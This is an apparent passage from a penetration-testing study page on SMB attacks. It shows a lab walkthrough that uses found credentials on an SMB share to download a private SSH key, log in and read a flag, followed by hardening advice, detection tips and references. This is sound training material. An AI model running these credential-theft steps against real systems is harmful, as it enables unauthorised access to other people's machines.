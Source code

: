 ### Example 3: SSH Key Extraction
**Task**: Login via SSH and find flag

```bash
# Access SMB share with found credentials
smbclient -U jason //10.129.137.91/GGJ

# Download SSH key
smb: \> get id_rsa
smb: \> exit

# Set permissions and connect
chmod 600 id_rsa
ssh -i id_rsa jason@10.129.137.91

# Find flag
cat flag.txt
# HTB{SMB_4TT4CKS_2349872359}
```

---

## 🛡️ Defense & Mitigation

### SMB Security Hardening
- **Disable SMBv1** protocol
- **Enable SMB signing** (mandatory)
- **Restrict anonymous access**
- **Implement strong authentication**
- **Monitor SMB traffic**
- **Segment network** properly

### Detection Strategies
- **Monitor failed authentication attempts**
- **Alert on suspicious SMB connections**
- **Track administrative share access**
- **Log RPC operations**
- **Detect LLMNR/NBT-NS traffic**

---

## 🔗 Related Techniques

- **[SMB Enumeration](../services/smb-enumeration.md)** - Information gathering techniques
- **[Pass the Hash](../passwords-attacks/pass-the-hash.md)** - Credential reuse attacks
- **[Network Services](../services/)** - Other protocol attacks
- **[Active Directory Attacks](../passwords-attacks/active-directory-attacks.md)** - Domain exploitation

---

## 📚 References

- **HTB Academy** - Attacking Common Services Module
- **Impacket Documentation** - Python SMB tools
- **CrackMapExec Wiki** - Advanced SMB testing
- **Responder Documentation** - LLMNR/NBT-NS poisoning
- **Microsoft SMB Protocol** - Official specifications
